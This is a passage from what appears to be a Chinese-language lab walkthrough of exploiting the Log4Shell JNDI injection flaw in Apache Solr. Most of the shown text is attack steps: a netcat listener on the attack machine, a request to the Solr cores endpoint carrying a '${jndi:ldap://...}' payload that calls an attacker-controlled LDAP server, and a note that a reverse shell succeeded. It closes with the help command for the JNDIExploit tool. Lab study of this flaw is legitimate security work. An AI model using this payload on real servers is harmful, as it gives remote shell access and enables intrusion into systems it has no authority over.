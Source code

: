 ##### 5.在攻击机中开启监听

```
nc -lvvp 8888
```

##### 6.使用payload的进行攻击

```
http://192.168.100.134:8983/solr/admin/cores?action=${jndi:ldap://192.168.100.143:1389/isimox}

//将工具生成的JNDI链接服务放到url里面进行执行
```

##### 7.查看回显

![image-20230908111049235](assets/1697159020_6528976ce0b2599a5ae17.png)

反弹shell成功；

新版本工具使用：

其他基本操作，通过DNSlog判断回显同以上一致

可查看帮助：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -h
```

![image-20230917110816580](assets/1697159021_6528976d8bfed792800f9.png)
